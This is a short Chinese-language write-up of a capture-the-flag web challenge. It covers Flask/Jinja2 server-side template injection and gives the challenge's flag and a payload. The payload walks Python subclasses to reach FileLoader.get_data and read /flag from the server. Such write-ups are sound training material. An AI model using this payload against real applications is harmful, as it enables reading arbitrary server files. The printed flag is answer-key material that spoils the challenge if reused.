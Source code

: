 - **题目名称：** 你买车票没
- **题目类型：** WEB
- **题目难度：** 中等
- **出题人：** gbljdgb
- **考点：**

1. python flask ssti模板注入

- **描述：** 星穹列车要出发了,没买票的开拓者不能上车!
- **flag：** XSCTF{SsT1_MilKTea_m1LktEa!}
- **Writeup：** 

payload如下

```
?name={% for c in [].__class__.__base__.__subclasses__() %}
{% if 'FileLoader' in c.__name__ %}
{{ c["get_data"](0, "/flag") }}
{% endif %}
{% endfor %}&password=1
```

